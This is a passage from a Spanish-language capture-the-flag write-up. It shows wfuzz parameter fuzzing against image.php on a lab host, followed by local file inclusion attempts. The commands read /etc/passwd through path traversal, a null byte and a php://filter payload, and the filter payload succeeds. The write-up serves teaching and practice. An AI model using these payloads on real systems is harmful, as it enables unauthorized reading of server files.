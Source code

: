 ```sh
```
footer.php es el php de la parte de abajo de la web, nada interesante me parece. El resto de directorios me responden "Forbidden" no tengo privilegios para verlos.  
Hay que mirar bien, si nos metemos a **image.php** parece que se quiere interpretar pero sale vacio, quizás este esperando algún parametro, fuzzearemos buscando un parametro en este php, con la herramienta wfuzz esta vez:
```sh
❯ wfuzz -c --hw=0 -t 100 -w /opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt "http://10.10.11.135/image.php?FUZZ=/etc/passwd"
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.135/image.php?FUZZ=/etc/passwd
Total requests: 6453

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                
=====================================================================

000002803:   200        0 L      3 W        25 Ch       "img"                                                                                                                  

Total time: 13.38524
Processed Requests: 6453
Filtered Requests: 6452
Requests/sec.: 482.0980
```
Encontramos que el parámetro img devuelve algo. Puedes verlo por navegador pero me apetece mostrarlo con curl:
```bash
❯ curl -s -X GET "http://10.10.11.135/image.php?img=/etc/passwd" | html2text
Hacking attempt detected!
```
De nuevo podríamos probar un ataque LFI, usaré mi mini diccionario.
```bash
❯ wfuzz -c -w /home/guise/Herramientas/miniLFI.txt "http://10.10.11.135/image.php?img=FUZZ"
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.135/image.php?img=FUZZ
Total requests: 9

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                
=====================================================================

000000008:   200        0 L      3 W        25 Ch       "/etc/passwd%00"                                                                                                       
000000001:   200        0 L      3 W        25 Ch       "/etc/passwd"                                                                                                          
000000003:   200        0 L      3 W        25 Ch       "../../../../../../../../etc/passwd"                                                                                   
000000007:   200        31 L     40 W       1614 Ch     "php://filter/resource=/etc/passwd"                                                                                    
```